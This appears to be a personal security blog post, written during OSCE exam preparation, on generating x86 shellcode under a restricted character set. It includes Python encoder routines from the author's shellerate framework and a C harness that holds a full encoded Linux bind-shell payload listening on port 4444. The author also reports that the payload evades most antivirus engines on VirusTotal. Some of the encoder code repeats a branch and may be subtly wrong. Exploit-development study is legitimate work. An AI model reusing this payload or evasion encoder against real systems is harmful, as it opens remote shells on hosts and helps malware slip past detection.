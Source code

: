 ```yaml
---
layout: post
title: "A tale of a restricted charset shellcode generation"
image: assets/images/ancient_writing.jpg
bootstrap: true
tags: [offensive security, shellcode, asm, x86, python, shellerate]
categories: [ ]
author: thesp0nge
---
```


During my OSCE exam preparation I had to deal with shellcode writing experience
where very few allower characters were available. 

This brilliant talk by [@muts](https://twitter.com/muts), lead us to get in
touch with a new encoding technique. When you can't directly write words on the
stack, due to bad characters, you can eventually let a register to contained
the desired word and then push the register into the stack.

{% youtube gHISpAZiAm0 %}

As you can see from the video taken at Defcon 16, the code exploits the fact
that after the shellcode it has been written into the stack, very close to the
encoded payload, the execution flow continues until the decoded shellcode it
has been found.

Boom.

All the magic happens in two different pieces.

## Init a register to 0

We can't use XOR to init a register to zero. So we use math here and some
AND property to apply to reset all bits in our register.

On
[shellerate](https://github.com/thesp0nge/shellerate/blob/master/shellerate/asm_x86.py)
I created a zero\_with\_and routine. The basic idea is to get a random 32 bits
value, calculating its NOT and then build the shellcode. When the register it
has been put in AND with those two values, it will be set to zero.

{%highlight python%}
  def zero_with_and(reg="eax", badchar=[]):

  while True:
    first_and = secrets.token_hex(4)
    n_b = bin(int(first_and, 16))
    n_b_2 = bit_not(int(n_b, 2), 32)
    if n_b_2 > 0:
      break

  second_and = format(n_b_2, 'x').zfill(8)

  logging.debug("First AND: %s" % first_and)
  logging.debug("Second AND: %s" % second_and)

  first_and_hex = strings.from_string_to_payload(strings.swap(first_and))
  second_and_hex = strings.from_string_to_payload(strings.swap(second_and))

  if reg == "eax":
    return "\\x25"+first_and_hex+"\\x25"+second_and_hex
  
  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ebx":
    return "\\xb1\\xe3"+first_and_hex+"\\xb1\\xe3"+second_and_hex
  if reg == "ecx":
    return "\\xb1\\xe1"+first_and_hex+"\\xb1\\xe1"+second_and_hex
  if reg == "edx":
    return "\\xb1\\xe2"+first_and_hex+"\\xb1\\xe2"+second_and_hex
{%endhighlight%}

## Writing a word on the stack
We can't write a word on the stack because of a restricted alphabet. We will
get rid of this by calculating the
[two-complement](https://en.wikipedia.org/wiki/Two%27s_complement) of the word
we want to write and by finding 2 or 3 values that when added will result in
our word's complement.

Those values will be subtracted from EAX register, after it has been set to 0.
At the end, EAX will be set to the desired word and it can be pushed into the
stack.

{% highlight python %}
  def generate_add_eax_sum_shellcode(result):
  compl_two = int("FFFFFFFF", 16) - int(result, 16) + 1

  c = find_encoded_sequence(compl_two)
  c2_h = "0x{:08x}".format(compl_two) 
  f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
  f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

  if (c2_h != f_sum):
    logging.warning("can't find a good encoded sequence using 2 operands... trying with 3")
    c = find_encoded_sequence(compl_two, True)
    f = ["".join(["{:02x}".format(j) for j in list(i)]) for i in zip(*c[::-1])]
    f_sum = "0x{:08x}".format(sum([int(i, 16) for i in f]) % (2**32))

    if(c2_h != f_sum):
      logging.error("can't find a good encoded sequence. Please consider changing this shellcode sequence" + result)
      return ""

  logging.debug("obtaining 0x{0} with this ASM sequence".format(result))
  for i in ("554e4d4a", "2a313235"):
    logging.debug("AND EAX, 0x{0}".format(i))
  for j in f:
    logging.debug("SUB EAX, 0x{0}".format(j))
  logging.debug("PUSH EAX")

  shellcode = asm_x86.zero_with_and("eax")
  for i in f:
    shellcode += "\\x2d" + strings.from_string_to_payload(strings.swap(i))
  shellcode+="\\x50"

  return shellcode
{%endhighlight%}


The whole generate.py source code is available on this gist.

{% gist 8daae5ae9656779b75a479e72f2a4492 %}

## Put all the pieces together with shellerate

This can be a really good shellcode encoding mechanism. That's why I automated
this process and integrated it with
[shellerate](https://github.com/thesp0nge/shellerate/tree/master/shellerate).

I asked my framework to generate a bind shell shellcode for Linux operating
system. The shell will listen on port 4444 for incoming connections.

Than I padded my shellcode, since I want to operate on 4 bytes long words and I
splitted my shellcode into words.

I encoded all the words using a restricted allowed charset alphabet and I
eventually appended a jump ESP call in order to use my shellcode in a C helper
like this:

{% highlight C %}
#include<stdio.h>
#include<string.h>

unsigned char code[]="\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x54\x58\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x6e\x6e\x6e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x01\x01\x36\x2d\x7e\x01\x75\x7e\x2d\x7e\x4c\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x01\x01\x01\x2d\x6e\x4e\x01\x4f\x2d\x7e\x7e\x34\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x01\x2d\x6d\x65\x60\x75\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x52\x2d\x5c\x66\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x32\x31\x52\x52\x2d\x7e\x66\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x09\x01\x50\x01\x2d\x7e\x05\x7e\x3e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x43\x01\x01\x38\x2d\x7e\x31\x7e\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x02\x01\x01\x01\x2d\x7e\x4f\x01\x01\x2d\x7e\x7e\x3d\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x50\x01\x01\x2d\x3c\x7e\x35\x4d\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x35\x01\x01\x2d\x6f\x7e\x01\x01\x2d\x7e\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x36\x01\x31\x01\x2d\x7e\x01\x6f\x01\x2d\x7e\x73\x7e\x73\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x31\x01\x2d\x62\x7e\x7c\x74\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x36\x01\x2d\x31\x7e\x7e\x01\x2d\x63\x7e\x7e\x7c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x50\x01\x2d\x32\x7e\x7e\x35\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x31\x01\x01\x2d\x01\x6f\x01\x70\x2d\x75\x7e\x4a\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x31\x31\x31\x7e\x2d\x72\x67\x63\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x31\x31\x31\x70\x2d\x7e\x68\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x02\x01\x01\x2d\x31\x7e\x4f\x01\x2d\x65\x7e\x7e\x34\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x31\x01\x2d\x7e\x3e\x68\x46\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x32\x7e\x75\x3b\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x01\x7e\x01\x7e\x2d\x4b\x7e\x4c\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x02\x2d\x31\x01\x31\x7e\x2d\x68\x45\x66\x7e\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x01\x01\x01\x01\x2d\x76\x3d\x75\x3c\x50\x25\x4A\x4D\x4E\x55\x25\x35\x32\x31\x2A\x2d\x51\x01\x01\x01\x2d\x7e\x3e\x75\x3b\x50\xff\xe4";

int main(int argc, char **argv)
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
{% endhighlight %}

Please note that I wrote my shellcode in a reverse order, from the last word to
the first. This way, since the stack is growing backwards, the ESP register
will point to the beginning of my decoded shellcode at the end of the process.

You can see the process in action here. As you can see, the shellcode is
working and a bind shellcode was listening on port 4444.

{% asciicast 241806 %}

What about anti virus tool then? I submitted my a.out file to Virus Total and
only 3 engines out of 58 detected my encoded shellcode: [pretty sweet
result](https://www.virustotal.com/gui/file/5045aee367cc29a8fcf4889c0935f039ed76550cb0f1ba743f9d20b9d2f1dc99/detection).

## Off by one

Next steps will be:
* implementing this encoder into shellerate and release a new version of the
  framework (with a working shellerate binary script of course)
* make the AND process to use random values, so to increase shellcode entropy
* having fun with other register mathematical instructions so to encode with
  ADD, MUL, DIV, ...
